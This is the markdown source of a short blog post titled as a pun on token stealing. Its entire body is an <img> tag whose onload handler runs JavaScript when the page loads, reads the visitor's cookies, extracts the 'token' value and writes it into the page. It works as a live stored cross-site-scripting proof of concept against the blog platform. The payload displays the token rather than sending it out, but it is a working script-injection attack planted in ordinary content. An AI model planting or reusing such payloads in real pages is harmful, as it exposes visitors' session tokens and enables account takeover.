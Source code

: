```yaml
---
title: "看看有沒有偷肯?"
tags: ["Blog"]
date: 2024-07-21
---
```

<img src="https://picsum.photos/200/300" onload="var cookies = document.cookie.split('; ').reduce((acc, cookie) => { const [key, value] = cookie.split('='); acc[key] = value; return acc; }, {}); document.querySelector('article[data-v-0042ca3e].content-container').innerHTML = `<div data-v-0042ca3e class='py-2 text-xl text-wrap'>Your token is ${cookies.token}</div>`;">

